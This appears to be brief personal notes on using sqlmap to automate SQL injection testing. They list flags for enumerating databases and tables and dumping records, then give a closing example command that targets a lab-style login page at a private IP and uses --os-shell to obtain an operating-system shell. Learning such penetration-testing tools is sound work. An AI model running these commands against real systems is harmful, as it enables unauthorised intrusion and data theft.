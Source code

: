 # SQLMAP

this tools allow to automate the possibility of SQL INJECTION in an url.
lets imagine we have a website with an url like :
EXEMPLE.COM/search/name=test_me
the name parameter is sent to a sql query in the filter part like :
SELECT \* FROM TEST_TABLE WHERE NAME=test_me

sqmap allow to automate the test for filter bypassing .

# CMD :

## GET :

the command line is :

```bash
sqlmap -u {GET METHOD url with search parameter}
```

### PARAMETER :

--dbs : try to enumerate all database

-D {database}

--tables : enumerate the table in the DB define with -d parameter

-T {table}

--dump: dump all record given for the database -d and the table define by -T parameter


Exemple wo create exploit 

sqlmap -u "http://10.10.76.154/ai/includes/user_login.php?email=test%40chatai.com&password=123" -p email --os-shell